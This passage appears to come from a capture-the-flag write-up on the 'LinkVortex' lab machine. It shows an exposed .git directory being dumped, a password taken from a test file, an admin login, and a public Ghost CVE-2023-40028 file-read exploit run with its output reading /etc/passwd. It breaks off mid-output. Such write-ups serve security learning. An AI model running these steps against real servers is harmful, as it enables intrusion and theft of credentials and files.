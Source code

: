 {{link("https://github.com/arthaud/git-dumper", "../../static/writeups/images/github.jpg", "git-dumper")}}

{{console("git-dumper http://dev.linkvortex.htb/.git/ website/", "[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
...")}}

{{text("Looking through the massive amount of files, I was able to get a password from the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>authentication.test.js</code> file.")}}

{{console("cat authentication.test.js", "...
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = '[REDACTED]';
            ...")}}

{{header("Shell as bob", "shell-as-bob")}}

{{text("I came back to the login form at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>linkvortex.htb/ghost</code> and logged in by using the password and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin@linkvortex.htb</code> as the username which I got from one of the posts on the website.")}}

{{image("../../static/writeups/linkvortex/images/000004.jpg")}}

{{text("By using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Wappalyzer</code> extension, I was able to learn the version of the CMS being used.")}}

{{image("../../static/writeups/linkvortex/images/000005.jpg")}}

{{text("I searched for known exploits and found this.")}}

{{link("https://github.com/monke443/CVE-2023-40028-Ghost-Arbitrary-File-Read", "../../static/writeups/images/github.jpg", "CVE-2023-4002 Ghost-Arbitrary-File-Read (< 5.59.1)")}}

{{text("It worked successfully, and I was able to read files from the server.")}}

{{console("python3 exploit.py --user admin@linkvortex.htb --password [REDACTED] --url http://linkvortex.htb", "Attempting auth...

[+] Got cookie -> s%3Ahh1ZKFGCFCs9TGZNXu_yQnzPwTObGAMG.qLOaBePU42jLpTJbtu40WXpdMZpMiNcOVsg8mzDZ%2Fb8

Enter a file path to read from the server: /etc/passwd

<Response [200]>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin